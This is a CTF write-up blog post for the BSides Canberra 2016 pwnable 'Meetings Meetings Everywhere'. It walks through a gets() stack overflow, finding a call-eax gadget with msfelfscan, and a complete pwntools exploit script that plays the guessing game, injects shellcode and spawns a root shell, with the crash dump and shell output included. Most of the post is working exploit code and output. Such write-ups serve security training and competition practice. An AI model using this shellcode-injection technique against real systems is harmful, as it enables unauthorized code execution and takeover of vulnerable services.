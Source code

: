 ```yaml
---
id: 694
title: BSides Canberra CTF 2016 – Meetings Meetings Everywhere – Pwnable
date: 2016-04-17T10:24:13+00:00
author: Kris
layout: post
guid: https://ctf.rip/?p=694
permalink: /bsides-canberra-ctf-2016-meetingsmeetingseverywhere-pwnable/
themepixels_post_link_target:
  - 'yes'
themepixels_enable_post_header:
  - default
themepixels_enable_post_meta_single:
  - default
themepixels_enable_post_featured_content:
  - default
themepixels_enable_post_categories:
  - default
themepixels_enable_post_tags:
  - default
themepixels_enable_post_share:
  - default
themepixels_enable_post_author_info_box:
  - default
themepixels_enable_related_posts:
  - default
themepixels_enable_post_next_prev_links:
  - default
themepixels_enable_topbar:
  - default
themepixels_enable_sticky_header:
  - default
themepixels_header_layout:
  - default
themepixels_site_layout:
  - default
themepixels_sidebar_position:
  - default
post_views_count:
  - "1014"
image: /images/2016/04/bsides.png
categories:
  - Write-Ups
---
```

I was pretty surprised that few people solved this one. I think there may have been an issue with the binary originally published where NX was enabled. This cost me a bit of time but no matter. We solved it easily in the end. It's a two part pwnable. A guessing game where you have to guess a number and receive higher/lower replies. When you win you get to enter your name.

In the binary you can see this is a trivial stack overflow by way of gets():


```
char *win()
{
  char s; // [sp+Ch] [bp-8Ch]@4
  int v2; // [sp+8Ch] [bp-Ch]@2

  puts("\nYay! You guessed correctly");
  do
    v2 = getchar();
  while ( v2 != 10 && v2 != -1 );
  printf("Enter your name and we'll schedule a meeting: ");
  return gets(&s);
}
```


For the guessing game I write a trivial binary searcher and when prompted to enter my name I send a bunch of A's to see where the chips fall:


```
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xff9e95ac ('A' <repeats 200 times>...)
EBX: 0x0 
ECX: 0xf76ce5a0 --> 0xfbad2088 
EDX: 0xf76cf87c --> 0x0 
ESI: 0x1 
EDI: 0xf76ce000 --> 0x1b3db0 
EBP: 0x41414141 ('AAAA')
ESP: 0xff9e9640 ('A' <repeats 200 times>...)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
...
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```


I can see esp points to our input so let's check for a gadget to use to jmp there.


```
root@kali:~/ctfs/bsides/pwn/guessing# msfelfscan -j esp guessing 
[guessing]
```


Nope. Well EAX is also pointing at our payload, any EAX gadgets?


```
root@kali:~/ctfs/bsides/pwn/guessing# msfelfscan -j eax guessing 
[guessing]
0x08048513 call eax
```


That'll do! Quick exploit time:


```
#!/usr/bin/python

from pwn import *

#host = "pwn3.bsides"
host = "localhost"
port = 10000

call_eax = p32(0x8048513)

payload = asm(shellcraft.nop()) * 20
payload += asm(shellcraft.sh())
payload += "A" * (cyclic_find('laab') - len(payload))
payload += call_eax
payload += "C" * 200

conn = remote(host, port)
val = 500
valmax = 1000
print "[*] Playing guessing game..."
while True:
    conn.recvuntil('>')
    conn.sendline(str(val))
    result = conn.recvline()
    
    if 'higher' in result:
        val += (valmax - val) // 2
    elif 'lower' in result:
        valmax = val
        val -= (val // 2)
    else:
        print "[*] Won guessing game..."
        break

conn.recvuntil(':')
print "[*] Sending payload..."
conn.sendline(payload)
conn.interactive()
```


And a quick test and it works!


```
root@kali:~/ctfs/bsides/pwn/guessing# ./test1.py 
[+] Opening connection to localhost on port 10000: Done
[*] Playing guessing game...
[*] Won guessing game...
[*] Sending payload...
[*] Switching to interactive mode
 $ id
uid=0(root) gid=0(root) groups=0(root)
```
